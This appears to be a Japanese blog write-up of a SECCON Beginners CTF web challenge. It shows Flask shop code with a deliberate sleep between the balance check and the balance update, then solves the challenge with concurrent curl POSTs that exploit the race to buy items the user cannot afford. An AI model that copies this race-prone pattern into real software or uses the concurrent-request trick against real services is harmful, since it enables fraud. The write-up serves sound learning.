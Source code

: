 
@app.route("/buy_soup", methods=["POST"])
def buy_soup():
    user_id = session.get("user")
    if not user_id:
        return redirect("/")
    balance, noodles, soup = get_userdata(user_id)
    if balance &gt;= 20000:
        soup += 1
        open(f"./users/{user_id}/soup.txt", "w").write(str(soup))
        time.sleep(random.uniform(-0.2, 0.2) + 1.0)
        balance -= 20000
        open(f"./users/{user_id}/balance.txt", "w").write(str(balance))
        return "💸💸$20000"
    return "ERROR: INSUFFICIENT FUNDS"


@app.route("/eat")
def eat():
    user_id = session.get("user")
    if not user_id:
        return redirect("/")
    balance, noodles, soup = get_userdata(user_id)
    shutil.rmtree(f"./users/{user_id}/")
    session["user"] = None
    if (noodles &gt;= 2) and (soup &gt;= 1):
        return os.getenv("CTF4B_FLAG")
    if (noodles &gt;= 2):
        return "The noodles seem to get stuck in my throat."
    if (soup &gt;= 1):
        return "This is soup, not ramen."
    return "Please make ramen."


if __name__ == "__main__":
    app.run()
 </pre>


<p>セッションごとに所持金20000円で40000円分の買い物をしてねという問題。当然普通に順番にPOSTしても解けないです。<br>
着眼点は明らかに怪しい<code>time.sleep(random.uniform(-0.2, 0.2) + 1.0)</code>です。<br>
買い物処理中に別の買い物プロセスを発火させれば他のプロセスがbalanceを書き換える前にbalanceチェックを突破することができます。
セッションだけセットして非同期で<a class="keyword" href="http://d.hatena.ne.jp/keyword/curl">curl</a>。</p>

<pre class="code" data-lang="" data-unlink> curl -k  'https://cant-use-db.quals.beginners.seccon.jp/buy_soup' \
      -X 'POST' \
      -H 'cookie: session=SESSION' &amp;
  curl -k  'https://cant-use-db.quals.beginners.seccon.jp/buy_noodles' \
      -X 'POST' \
      -H 'cookie: session=SESSION' &amp;
  curl -k  'https://cant-use-db.quals.beginners.seccon.jp/buy_noodles' \
      -X 'POST' \
      -H 'cookie: session=SESSION'
 </pre>
